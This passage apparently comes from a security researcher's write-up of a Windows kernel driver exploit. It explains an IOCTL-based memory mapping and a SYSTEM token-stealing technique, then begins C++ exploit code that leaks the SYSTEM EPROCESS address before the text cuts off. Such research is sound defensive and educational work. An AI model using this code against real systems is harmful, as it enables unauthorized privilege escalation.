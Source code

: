 ```c++
    getchar();
    DebugBreak();
    return 0;
}
```

As expected, we got a mapping of the target address. We did not cover the output buffer yet – essentially if we inspect it after triggering the IOCTL with valid arguments we get something like the following back, which has the mapped user-mode address as the 3rd value:

`ffff850127c16970 4343434300001000 1ce40870040 00000000 ...`

At this point, all that is left to do is read the SYSTEM token and then iterate through the ActiveProcessLinks linked list until we find our own process. When we find it, we overwrite our own Token with the SYSTEM one and are done. The final exploit implementing this can be found below:

```c++
#include "windows.h"
#include <stdio.h>

#define QWORD ULONGLONG
#define IOCTL_01 0x9C406500
 
#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2
 
using fNtQuerySystemInformation = NTSTATUS(WINAPI*)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );
 
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO {
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;
 
typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;
 
typedef NTSTATUS(NTAPI* _NtQueryIntervalProfile)(
    DWORD ProfileSource,
    PULONG Interval
);
 
QWORD getSystemEProcess() {
    ULONG returnLenght = 0;
    fNtQuerySystemInformation NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"ntdll"), "NtQuerySystemInformation");
    PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);
    NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLenght);
    SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[0];
    return (QWORD)handleInfo.Object;
}
```